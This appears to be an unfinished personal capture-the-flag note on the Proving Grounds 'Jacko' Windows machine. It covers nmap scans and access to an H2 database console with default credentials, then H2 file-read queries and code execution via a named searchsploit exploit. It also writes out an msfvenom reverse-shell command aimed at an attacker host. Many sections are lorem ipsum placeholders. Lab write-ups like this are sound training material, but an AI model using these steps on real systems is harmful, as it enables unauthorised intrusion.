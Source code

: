 ```yaml
---
Date: 2024-10-29
Platform: PG-Practice
Category: Windows
Difficulty: Intermediate
Status: In progress
IP: 192.168.182.66
Writeup: https://medium.com/@Dpsypher/proving-grounds-practice-jacko-d42c9c1e7f9e
---
```

# Box


# Resolution summary
- Text
- Text
## Improved skills
- skill 1
- skill 2
## Used tools
- nmap
- python

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -p- -vvv -oN jacko.nmap 192.168.182.66
---
PORT      STATE    SERVICE         REASON
80/tcp    open     http            syn-ack ttl 125
135/tcp   open     msrpc           syn-ack ttl 125
139/tcp   open     netbios-ssn     syn-ack ttl 125
445/tcp   open     microsoft-ds    syn-ack ttl 125
5040/tcp  open     unknown         syn-ack ttl 125
8082/tcp  open     blackice-alerts syn-ack ttl 125
9092/tcp  open     XmlIpcRegSvc    syn-ack ttl 125
39980/tcp filtered unknown         no-response
49664/tcp open     unknown         syn-ack ttl 125
49665/tcp open     unknown         syn-ack ttl 125
49666/tcp open     unknown         syn-ack ttl 125
49667/tcp open     unknown         syn-ack ttl 125
49668/tcp open     unknown         syn-ack ttl 125
49669/tcp open     unknown         syn-ack ttl 125
61417/tcp filtered unknown         no-response
```

Enumerated open TCP ports:
```bash
sudo nmap -p 80,135,139,445,5040,8082,9082,61417 -A 192.168.182.66 -oN jacko-ports.nmap -v
---
PORT      STATE  SERVICE       VERSION
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
5040/tcp  open   unknown
8082/tcp  open   http          H2 database http console
| http-methods: 
|_  Supported Methods: GET POST
|_http-favicon: Unknown favicon MD5: D2FBC2E4FB758DC8672CDEFB4D924540
|_http-title: H2 Console
9082/tcp  closed unknown
61417/tcp closed unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/28%OT=80%CT=9082%CU=41631%PV=Y%DS=4%DC=T%G=Y%TM=
OS:671F6F8E%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=I%CI=I%TS=U)S
OS:EQ(SP=101%GCD=1%ISR=10B%TI=I%CI=I%TS=U)SEQ(SP=101%GCD=1%ISR=10C%TI=I%CI=
OS:I%TS=U)SEQ(SP=FF%GCD=1%ISR=10B%TI=I%CI=I%TS=U)OPS(O1=M578NW8NNS%O2=M578N
OS:W8NNS%O3=M578NW8%O4=M578NW8NNS%O5=M578NW8NNS%O6=M578NNS)WIN(W1=FFFF%W2=F
OS:FFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M578NW8NN
OS:S%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-10-28T11:03:30
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
---
# Enumeration

## Port 80 - HTTP (H2 Database)
- Navigated to `http://192.168.182.66:80` and identified default page for `H2 Database Engine`
![[Pasted image 20241028212111.png]]

## Port 135 - MSRPC (Windows RPC)

## Port 139 & 445 - SMB (Apache)

## Port 8082 - HTTP (Apache)
- Navigated to `http://192.168.182.66:80`82 and identified default page for `H2 Database Engine`
![[Pasted image 20241028212149.png]]
- Attempted login with default credentials `sa:` (No Password) and accessed admin panel
![[Pasted image 20241028212232.png]]
- Ran SQL query `SELECT FILE_READ('C:\Windows\system.ini', NULL);` to test file read ability
![[Pasted image 20241028214128.png]]
- Ran `SELECT FILE_WRITE('test','C:\test.txt');` to test file write ability - access is denied to directory.
![[Pasted image 20241028214439.png]]
- Ran `searchsploit "H2"` and identified exploit `49384.txt` to compile and run Java code on target for code execution
![[Pasted image 20241028215150.png]]
- Copied Java code into SQL field and ran
![[Pasted image 20241028215317.png]]
- Loaded Java native library
![[Pasted image 20241028215433.png]]
- Evaluated script with `whoami` to confirm code execution and identify `jacko/tony`
![[Pasted image 20241028215550.png]]
- Returned to Kali host and ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.162 LPORT=4444 -f exe > revshell.exe` to create reverse shell executable, then `python3 -m http.server 80` to serve folder with `revshell.exe` via HTTP
![[Pasted image 20241028215953.png]]
- 
## Port 49152-60 - MSRPC (Windows RPC)
No Enumeration conducted

---
# Exploitation
## Name of the technique
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Lateral Movement to user
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Lateral Movement vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Privilege Escalation
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---
# Trophy & Loot
`local.txt` = ``
`proof.txt` = ``